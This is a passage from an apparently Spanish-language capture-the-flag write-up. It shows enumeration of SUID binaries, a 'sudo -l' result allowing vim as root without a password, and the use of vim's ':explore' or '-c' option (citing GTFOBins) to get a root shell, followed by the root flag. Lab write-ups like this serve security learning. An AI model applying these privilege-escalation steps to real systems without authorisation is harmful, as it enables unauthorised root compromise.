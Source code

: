 ~~~console
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
~~~

Entonces se decide verificar que comandos pueden ser ejecutados con sudo por el usuario.

~~~console
$ sudo -l 
User mitch may run the following commands on Machine:
      (root) NOPASSWD: /usr/bin/vim
~~~

Para explotar vim y obtener una shell como root se debe abrir el editor de texto y ejecutar el comando interno ```:explore```.

~~~console
sudo vim

:explore
~~~

Aunque en ocasiones este método no funciona, y se debe ejecutar el comando mediante el parámetro **-c** en la ejecución, como se puede ver en [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) y se obtiene la shell solicitada con permisos de root.

![](https://i.imgur.com/Yh2jyrc.png)

Se puede obtener entonces la flag del usuario root (**W3ll d0n3. You made it!**) habiendo comprometido la máquina completamente.
